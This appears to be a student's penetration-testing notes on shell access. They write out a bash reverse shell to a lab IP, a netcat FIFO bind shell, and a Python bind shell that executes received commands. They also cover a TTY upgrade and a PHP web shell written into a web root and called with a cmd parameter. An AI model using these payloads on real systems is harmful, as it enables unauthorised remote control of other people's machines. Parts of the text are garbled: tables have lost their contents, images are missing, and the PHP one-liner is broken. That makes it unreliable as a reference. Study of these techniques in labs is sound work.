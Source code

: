 # Type of Shells

# Type of Shells

~~To Enumerate the system or take further control or connection with networks , we need a reliable connection that give us direct access to the system’s shell that is Bash,or powershell~~

[Untitled](Type%20of%20Shells%20ed04c2598f054e4f964134780eb5d5b7/Untitled%20Database%2096d8cedf917549689d02e77b8bde0b6a.csv)

The detailed version of [[Connecting to Vpn]] shells.

---

###### Reverse Shell

---

|| –|–|– | Remote Code Execution | netcat listener with a specific port

---

###### Netcat Listner

---

The first step is to start a  listener on a port of our Choosing :

---

Usage :

---

|| –|–| |   | Listen mode , to wait for connection to wait for us.  | Verbose mode, so that we know when we receive a connection.  | Disable Dns resolution and only connect from/to IPs, to speed up the connection.  | Port number netcat is listening on, and the reverse connection should be should be sent to.

---

### Reverse Shell Commands

The commands we execute depends on what the os host runs.

**#Tools – [Payload all things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)** This page has a comprehensive list of reverse shell commands.

Use this command to get reverse connection for **bash** on **Linux**

```
bash -c 'bash -i >& /dev/TCP/10.10.10.10/1234 0>&1'
```

### Bind Shell Command

Once we execute a Bind shell command It will start listening on a port on the remote host and bind that host’s shell to that port. We have to connect through that port with netcat and we will get control shell on that system.

This command is used for starting a bind shell :

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

### Netcat Connection

Once we execute bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it.

### UPGRADING TTY

~~What is **TTY** TTY stands for **Teletypewriter**. It’s prints name of terminal you’re using.~~

~~Why we can use **TTY** When we successfully connected to netcat shell we saw only **typing commands or backspace** works nothing else. We can’t move left or right then we have have upgrade **TTY** to able to do that. There are multiple methods to do that but here is **python/stty**~~

This upgrades **TTY**

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

After we run this command we will hit **ctl+z** to background our shell and input the following `stty` command `~~stty` stands for set TTY~~  [[Pasted image 20210911202557.png]]

**fg** to bring back our netcat and hit **enter** and **reset** and hit enter . At this point we would have fully TTY with command history and everything else .

We may notice that our shell does not cover the entire terminal. To fix this we have to figure out a few variables , we have to open a new terminal.

[[Pasted image 20210911203811.png]]

**Go back and use the commands to netcat shell**

[[Pasted image 20210911203953.png]]

### Web Shell

A **Web Shell** is typically a web script that is **PHP** or **ASPX** that accepts our commands through HTTP request Parameters such as **GET**/**POST** request parameters, executes our commands and prints its output back on the web page. `~~ASPX` – Active Server Pages extended. Microsofts’s first server side scripting language and engine for dynamic web.~~

### Writing a Web Page

~~Web shell is a malicious script that provides an attacker with a convenient way to launch attacks using a compromised web-server~~ First of all we need to write our web shell that would take our command through a **GET** request,executes it and print it output back. It’s one liner that is very short.

[[Pasted image 20210911205550.png]]

### Uploading a web shell

If we have web shell we have to upload it on remote host’s web directory(web root) to execute the script through web browser. This can be through our a vulnerability in an upload feature, which would allow us to write one of our shells to file i.e. shell.php and upload it and then access our uploaded file to execute commands.

if we have only RCE through an exploit , we can write our shell directly to the webroot to access it over the web. Where is webroot default webroot for common web server :

[[Pasted image 20210911210643.png]]

We can check these directories to see which webroot is in use and then use **echo** to write out our web shell.

For example if we are attacking a linux host running apache we can write a PHP shell

`echo "<?PHP sytem($_GET['cmd'];?>)" > /var/www/html/shell.php`

### Accessing web shell

`http://SERVER_IP:PORT\shell.php?cmd=id`

[[Pasted image 20210911221750.png]]